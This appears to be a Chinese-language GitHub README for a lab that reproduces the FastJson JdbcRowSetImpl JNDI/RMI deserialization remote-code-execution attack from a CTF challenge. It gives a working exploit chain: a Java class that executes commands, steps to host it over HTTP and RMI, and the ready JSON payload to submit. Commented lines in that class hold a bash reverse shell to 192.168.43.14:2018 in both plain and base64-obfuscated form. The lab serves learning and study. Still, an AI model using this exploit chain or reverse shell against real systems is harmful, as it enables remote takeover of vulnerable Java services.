 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯CTF比赛中，有一道Web的“easy_web”题，其实就是利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell，然后cat Flag。一大部分人对这道题是懵逼的，没做出来，后面因护网杯题目关闭了，没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P /opt/apache-tomcat-8.5.24/webapps/ && cd /opt/apache-tomcat-8.5.24/bin/ && ./startup.sh


--2018-10-19 03:56:31--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war
Resolving github.com (github.com)... 192.30.253.112, 192.30.253.113
Connecting to github.com (github.com)|192.30.253.112|:443... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war [following]
--2018-10-19 03:56:34--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war [following]
--2018-10-19 03:56:36--  https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.24.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.24.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1124826 (1.1M) [application/octet-stream]
Saving to: ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’

FastJson_Vul.war                          100%[==================================================================================>]   1.07M   116KB/s    in 9.2s

2018-10-19 03:56:46 (119 KB/s) - ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’ saved [1124826/1124826]

Using CATALINA_BASE:   /opt/apache-tomcat-8.5.24
Using CATALINA_HOME:   /opt/apache-tomcat-8.5.24
Using CATALINA_TMPDIR: /opt/apache-tomcat-8.5.24/temp
Using JRE_HOME:        //opt/jdk1.8.0_131/jre
Using CLASSPATH:       /opt/apache-tomcat-8.5.24/bin/bootstrap.jar:/opt/apache-tomcat-8.5.24/bin/tomcat-juli.jar
Tomcat started.
root@Bearcat:/opt/apache-tomcat-8.5.24/bin#
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin
